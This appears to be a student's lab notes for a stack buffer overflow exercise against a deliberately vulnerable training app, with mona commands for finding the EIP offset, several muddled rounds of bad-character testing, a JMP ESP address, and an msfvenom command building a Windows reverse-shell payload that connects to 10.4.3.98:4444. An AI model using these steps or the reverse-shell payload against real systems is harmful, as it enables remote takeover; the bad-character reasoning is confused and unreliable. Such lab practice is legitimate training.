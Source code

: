 ### EIP
400bytes

!mona findmsp -distance 800

Log data, item 18
 Address=0BADF00D
 Message=    EIP contains normal pattern : 0x356b4134 (offset 314)

BBBB verified 

### Bad chars
##### Round 1
!mona bytearray -b "\x00"
ESP 0183FA30
!mona compare -f C:\mona\oscp\bytearray.bin -a 0183FA30

00 01 02 03 04 16 17 2f 30 f4 f5 fd
00 01 02 03 04 16 17 2f 30 f4 f5 fd

\x00\x01\x02\x03\x16\x2f\xf4\xfd

##### Round 2

!mona bytearray -b "\x00\x16\x2f\xf4\xfd"

ESP 019DFA30
!mona compare -f C:\mona\oscp\bytearray.bin -a 019DFA30


00 01 02 03 04 16 2f f4 fd

##### Round 3
just try \x01

!mona bytearray -b "\x00\x01\x16\x2f\xf4\xfd"

01A6FA30
!mona compare -f C:\mona\oscp\bytearray.bin -a 01A6FA30

00 01 02 03 04 05 16 2f f4 fd


##### Round 4
Okay, i see. they don't have to be bad chars. but mona want them to be filtered.

\x00\x01\x02\x03\x04\x05\x16\x2f\xf4\xfd

!mona bytearray -b "\x00\x01\x02\x03\x04\x05\x16\x2f\xf4\xfd"

0186FA30
!mona compare -f C:\mona\oscp\bytearray.bin -a 0186FA30

00 01 02 03 04 05 06 07 08 09 16 2f f4 fd


\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x16\x2f\xf4\xfd

##### Round 5 maybe it's endless. just no ending
!mona bytearray -b "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x16\x2f\xf4\xfd"

018EFA30




!mona compare -f C:\mona\oscp\bytearray.bin -a 01B8FA30


00 01 02 03 04 05 06 07 08 09 0a 0b 0c 0d 16 2f f4 fd


##### JMP ESP
!mona jmp -r esp -cpb "\x00\x16\x2f\xf4\xfd"

Log data, item 11
 Address=625011AF
 Message=  0x625011af : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\admin\Desktop\vulnerable-apps\oscp\essfunc.dll)

625011AF
\xaf\x11\x50\x62

msfvenom -p windows/shell_reverse_tcp LHOST=10.4.3.98 LPORT=4444 EXITFUNC=thread -b "\x00\x16\x2f\xf4\xfd" -f c

# Final note
When they are too much naguty chars. Make sure using the bad chars only not includes everthing.